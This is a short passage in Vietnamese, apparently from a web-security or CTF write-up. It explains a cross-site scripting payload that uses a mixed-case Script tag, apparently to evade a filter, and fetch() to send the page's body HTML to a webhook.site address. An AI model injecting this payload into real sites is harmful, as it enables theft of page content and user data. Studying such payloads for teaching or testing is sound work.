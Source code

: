 ![image](./images/image46.png)

Nhưng mình lại có thể xài Script như đã đề cập ở trên và chúng ta có payload như sau : 

```html
<Script>fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?c='+encodeURI(document.body.innerHTML))</Script>
```

